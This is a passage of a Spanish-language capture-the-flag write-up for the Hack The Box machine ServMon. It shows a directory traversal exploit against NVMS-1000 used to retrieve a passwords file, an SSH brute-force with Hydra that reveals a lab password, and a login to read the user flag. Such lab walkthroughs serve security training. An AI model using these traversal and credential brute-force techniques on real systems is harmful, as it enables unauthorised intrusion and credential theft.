El contenido del archivo es:
```console
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

### HTTP

Se procede a entrar al sitio web encontramos `NVMS-1000` que es un cliente de videovigilancia en red. Buscando en [Exploit-db](https://www.exploit-db.com/exploits/48311) este cliente es vulnerable a ataques de directorio trasversal.

Este exploit aprovecha la vulnerabilidad de `directorio transversal` la cual permite acceder a cualquier tipo de directorio o archivos sensibles.


## Explotación

En el archivo `Confidential.txt` que encontramos en el directorio de `Nadine` en el FTP nos informa que en el escritorio de `Nathan` se encuentra el archivo `Passwords.txt`. Así que utilizando el exploit que se descargó anteriormente,  vamos a obtener la información que hay en el archivo.

```python
python exploit.py http://servmon.htb users/nathan/passwords.txt passwords.txt
```

Ahora, conociendo el nombre de dos usuarios `Nadine` y `Nathan` y contraseñas, vamos a hacer uso de la herramienta Hydra para realizar un ataque de fuerza bruta para ingresar vía SSH. Para esto, además del archivo `passwords.txt` vamos a crear un archivo `users.txt` con los dos usuarios encontrados en FTP.

```console
root@kali:/home/kali/Documents/HTB/Machines/ServMon/content# hydra -L users.txt -P passwords.txt servmon.htb ssh
Hydra v9.0 (c) 2019 by van Hauser/THC

[DATA] attacking ssh://servmon.htb:22/
[22][ssh] host: servmon.htb   login: nadine   password: L1k3B1gBut7s@W0rk
```
Ahora ingresamos con las credenciales del usuario y obtenemos el flag del user.

```console
root@kali:/home/kali# ssh nadine@servmon.htb
nadine@servmon.htb's password: 

Microsoft Windows [Version 10.0.18363.752]          
(c) 2019 Microsoft Corporation. All rights reserved.
                                                    
nadine@SERVMON C:\Users\Nadine>cd Desktop                                  
nadine@SERVMON C:\Users\Nadine>type user.txt 
cb1df8..........................
```
